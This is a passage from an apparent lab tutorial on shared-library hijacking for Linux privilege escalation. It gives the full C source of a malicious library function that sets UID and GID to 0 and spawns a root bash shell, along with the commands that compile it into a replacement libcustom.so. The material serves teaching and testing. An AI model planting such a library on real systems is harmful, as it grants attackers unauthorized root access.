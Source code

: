 Lastly, we'll create the code that will be included in the malicious library file. I'll name this file as `libcustom.c`:

```bash
user@pwn:~/so-files/evil$ vim libcustom.c
```

This code sets the UID (0) which is the UID of the root user. Then it sets the GID of (0) which is the root group. The next three lines print a message of their own. The last line spawns a bash shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library!\n");
    printf("I'm trying to spawn a root shell...\n");
    printf("Check your shell!\n");
    system("/bin/bash");
}
```

Now copy the original header file to our current working directory:

```bash
user@pwn:~/so-files/evil$ cp ../libcustom.h .
user@pwn:~/so-files/evil$ ls
libcustom.c  libcustom.h
```

Let's create the malicious shared object:

```bash
user@pwn:~/so-files/evil$ gcc -c -Wall -Werror -fPIC libcustom.c
user@pwn:~/so-files/evil$ gcc -shared -o libcustom.so libcustom.o
user@pwn:~/so-files/evil$ ls -l
total 28
-rw-rw-r-- 1 user user   281 Dec 10 12:13 libcustom.c
-rw-rw-r-- 1 user user    88 Dec 10 12:14 libcustom.h
-rw-rw-r-- 1 user user  2104 Dec 10 12:14 libcustom.o
-rwxrwxr-x 1 user user 16360 Dec 10 12:14 libcustom.so
```

Now go back to the main directory:

```bash
user@pwn:~/so-files/evil$ cd ~/so-files
```

This creates an object file:

```bash
user@pwn:~/so-files$ gcc -c -Wall -Werror -fPIC libcustom.c
```
